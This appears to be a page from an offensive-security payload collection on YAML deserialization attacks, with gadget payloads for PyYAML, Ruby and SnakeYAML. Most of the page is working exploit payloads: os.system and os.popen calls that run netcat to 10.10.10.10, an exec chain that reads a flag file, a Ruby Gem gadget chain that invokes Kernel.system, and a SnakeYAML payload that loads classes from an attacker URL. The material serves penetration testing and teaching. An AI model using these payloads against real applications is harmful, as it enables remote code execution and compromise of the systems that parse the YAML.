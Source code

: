 # YAML Deserialization

## Summary

* [Tools](#tools)
* [Exploit](#exploit)
    * [PyYAML](#pyyaml)
    * [ruamel.yaml](#ruamelyaml)
    * [Ruby](#ruby)
    * [SnakeYAML](#snakeyaml)
* [References](#references)

## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) - A tiny project for generating SnakeYAML deserialization payloads
* [mbechler/marshalsec](https://github.com/mbechler/marshalsec)

## Exploit

### PyYAML

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Since PyYaml version 6.0, the default loader for ```load``` has been switched to SafeLoader mitigating the risks against Remote Code Execution.
[PR fixing the vulnerabily](https://github.com/yaml/pyyaml/issues/420)

The vulnerable sinks are now ```yaml.unsafe_load``` and ```yaml.load(input, Loader=yaml.UnsafeLoader)```

```
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```

## Ruamel.yaml

## Ruby

```ruby
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

## SnakeYAML

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```


## References

* [Python Yaml Deserialization - hacktricks.xyz][https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization]
* [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13][https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf]
* [PyYAML Documentation](https://pyyaml.org/wiki/PyYAMLDocumentation)
* [Blind Remote Code Execution through YAML Deserialization - 09 JUNE 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
* [[CVE-2019-20477]- 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - @_j0lt](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)
